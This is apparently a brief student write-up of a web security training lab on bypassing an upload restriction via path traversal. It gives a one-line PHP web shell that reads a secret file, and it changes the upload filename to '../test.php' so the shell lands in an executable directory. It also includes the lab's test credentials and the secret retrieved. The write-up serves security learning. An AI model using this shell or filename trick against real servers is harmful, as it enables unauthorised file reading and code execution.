 # file upload web shell upload via path traversal

## This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a [secondary vulnerability].

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

<?php echo file_get_contents('/home/carlos/secret'); ?>

save as test.php

---

### step 1

login using userid and password
upload any images and try to upload expolit code file it will not upload
so path traveral come in role
../ it means exit from current director
so upload php file and intercept url
filename="test.php" change to filename="../test.php"
and forword
then
access GET /files/test.php HTTP/1.1
OLBNOvcGpJ8NiYO5k1gFyUSNkpTAVdhV

submit code lab solved

![screenshot](./images/lab4_image_upload_file_intercept.png)

![screenshot](./images/lab4_htacess_add_type.png)

![screenshot](./images/lab4_test_shell_upload.png)

![screenshot](./images/lab4_getrequest_test_shell.png)
